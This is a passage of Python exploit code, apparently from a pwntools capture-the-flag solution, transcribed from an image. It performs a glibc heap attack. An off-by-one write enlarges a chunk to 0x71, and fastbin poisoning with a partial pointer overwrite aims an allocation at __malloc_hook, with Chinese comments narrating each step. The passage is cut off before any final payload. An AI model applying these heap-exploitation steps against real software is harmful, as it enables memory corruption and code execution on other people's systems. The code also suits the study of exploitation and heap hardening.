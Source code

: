```python
	p.send(content)
create(0x18,0) # 0x20
create(0xc8,1) # d0
create(0x65,2)  # 0x70

info("create 2 chunk, 0x20, 0xd8")
fake = "A"*0x68
fake += p64(0x61)
edit(1,fake)
info("fake")

free(1)
create(0xc8,1)

create(0x65,3)  # b
create(0x65,15)
create(0x65,18)

over = "A"*0x18  # off by one
over += "\x71"  # set chunk  1's size --> 0x71
edit(0,over)
info("利用 off by one ,  chunk  1's size --> 0x71")

free(2)
free(3)

info("创建两个 0x70 的 fastbin")


heap_po = "\x20"
edit(3,heap_po)
info("把 chunk'1 链入到 fastbin 里面")


# malloc_hook 上方
malloc_hook_nearly = "\xed\x1a"
edit(1,malloc_hook_nearly)

info("部分写，修改 fastbin->fd ---> malloc_hook")


create(0x65,0)
create(0x65,0)
create(0x65,0)

info("0 拿到了 malloc_hook")

free(15)
edit(15,p64(0x00))
info("再次生成 0x71 的 fastbin, 同时修改 fd =0, 修复 fastbin")

create(0xc8,1)
create(0xc8,1)
create(0x18,2)
create(0xc8,3)
create(0xc8,4)

free(1)
po = "B"*8
po += "\x00\x1b"
edit(1,po)
create(0xc8,1)

```